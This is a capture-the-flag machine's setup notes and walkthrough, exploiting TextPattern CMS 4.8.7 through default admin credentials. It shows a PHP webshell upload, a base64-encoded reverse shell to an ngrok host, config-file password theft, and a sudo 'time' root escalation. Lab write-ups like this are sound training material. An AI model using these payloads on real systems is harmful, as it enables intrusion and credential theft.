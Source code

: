 # Text

## Introduction

I made this box because I want to learn something new and add experience in the field of cybersecurity , To pwned the machine you just need a basic cve exploitation and basic research.

## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| john  |       aDmin@12142csaJQA#            |
| root  |           1237443                   | 

### Key Processes

This machine uses the TextPattern CMS 4.87 vulnerability. The CMS is authenticated remote code execution, but for this machine, the default user pass is used so attackers can login easily and upload shell.


### Automation / Crons



- The tools CVE Exploit automatically upload a shell from admin page
- Attacker can login admin with default user pass and they can upload shell from there
- After i reviewed the cve source code i saw the code upload shell from `textpattern/index.php? event=file` and fill it with malicious code php then we can remotely access webserver
- It can run because the default upload files is `files` then attacker can upload shell and access it from `textpattern/files/shell.php` 



### Other

I used setup with a static ip i hope you modify it 



# Writeup


# Enumeration

First of all we enumeration with nmap to scan openport 
```
nmap -sC -sV -p- -T4 --min-rate=9326 --vv test.htb        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 02:44 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
Initiating ARP Ping Scan at 02:44
Scanning test.htb (192.168.179.130) [1 port]
Completed ARP Ping Scan at 02:44, 0.12s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 02:44
Scanning test.htb (192.168.179.130) [65535 ports]
Discovered open port 80/tcp on 192.168.179.130
Discovered open port 22/tcp on 192.168.179.130
Completed SYN Stealth Scan at 02:44, 7.40s elapsed (65535 total ports)
Initiating Service scan at 02:44
Scanning 2 services on test.htb (192.168.179.130)
```

Have 2 port only are open so 22 is ssh and 80 is http . So let's we check the webserver

# Foothold

![](2024-01-30-15-46-41.png)

At 'http://test.htb', there was a link to login, and the website was also used Textpattern . After i clicked that link the website would redirect to `/textpattern` and there have a blog page so let's we research about textpattern exploit .


![](2024-01-30-15-51-39.png)

I found exploit-db and github page let's we review the source code exploit [TextPattern CMS 4.8.7](https://www.exploit-db.com/exploits/49996) here the source code .  There told you go to content section and click `Files` and upload your malicious php file . For access the webshell go to `textpattern/files/shell.php?cmd=ls` before that you need login as admin to access our page .

## Exploitation
To login to the textpattern page, you need to go to 'textpattern/textpattern' and there will be the login page. The website uses a default user pass, so you can login with this user pass, 'admin/admin', and it will redirect you to the admin dashboard so you can upload webshell and access it from the `/files` directory.


![](2024-01-30-16-10-06.png)

Click the content above and click `Files`. After that, upload your shell 


```
<?php system($_GET['cmd']);?>
```

Fill that source code and saved it as `shell.php` and upload that 

![](2024-01-30-16-09-24.png)

My webshell successfully uploaded to access the webshell we need go to `textpattern/files/test.php?cmd=ls`

![](2024-01-30-16-10-52.png)

Successfuly remote access so we just revshell to get user access . Let's we revshell to privilege escalation to got user 

```
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTQ0MjYgMD4mMQ==%22%20|%20base64%20-d%20|%20bash
```

`c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTQ0MjYgMD4mMQ==` this is my revshell payload you just change it to your ip port and change it to base64 . So my revshell now has been connected so let's we try find the password user

Let's say our try using password mysql to login user . Default file config file on `/textpattern/textpattern/config.php` .

```
$ cat config.php
<?php
$txpcfg['db'] = 'test';
$txpcfg['user'] = 'test';
$txpcfg['pass'] = 'aDmin@12142csaJQA#';
$txpcfg['host'] = 'localhost';
$txpcfg['table_prefix'] = '';
$txpcfg['txpath'] = '/var/www/html/textpattern/textpattern';
$txpcfg['dbcharset'] = 'utf8mb4';
// For more customization options, please consult config-dist.php file.
```

Here the password mysql now i'll try login user as john with the password . To know username u can running `cat /etc/passwd | grep /home`

![](2024-01-30-16-23-26.png)

The username is `john` so i'll try using the password and login as john

![](2024-01-30-16-25-00.png)

Successfully login as john so let's we login ssh as john and privilege to got root access

# Privilege Escalation

```
john@test:~$ sudo -l
Matching Defaults entries for john on test:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on test:
    (root) NOPASSWD: /usr/bin/time
```

john can run `/usr/bin/time` with root permision without password so let's we privilege esc . Let's we check on [GTFOBins](https://gtfobins.github.io/) and search time and i found binary time so we can get remote access with permission root

`sudo /usr/bin/time /bin/sh`

Run this command on your ssh and successfully rooted !!

![](2024-01-30-16-30-51.png)